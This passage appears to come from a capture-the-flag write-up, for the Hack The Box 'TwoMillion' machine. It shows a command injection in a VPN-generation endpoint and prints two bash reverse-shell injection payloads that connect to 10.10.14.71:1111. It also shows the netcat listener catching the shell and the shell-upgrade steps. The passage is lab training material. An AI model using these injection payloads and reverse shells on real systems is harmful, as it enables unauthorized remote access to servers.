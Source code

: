 > This vulnerability can be mapped to **WSTG-BUSL-02 : Test Ability to Forge Requests** using [WSTG - v4.2](https://owasp.org/www-project-web-security-testing-guide/v42)

## Command Injection

It's probably using bash command to generate VPN, try command injection

![](/assets/obsidian/e8b3351a5e2b9efda3a116362038669d.png)

Get reverse shell

```bash
;/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.71/1111 0>&1' #
```

> Alternative way to inject: `$(/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.71/1111 0>&1')`

![](/assets/obsidian/bbd734457bff5f141554f958944c0849.png)

```bash
┌──(kali㉿kali)-[~/htb/TwoMillion]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.71] from (UNKNOWN) [10.10.11.221] 58282
bash: cannot set terminal process group (1157): Inappropriate ioctl for device
bash: no job control in this shell

www-data@2million:~/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@2million:~/html$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~/htb/TwoMillion]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111
```
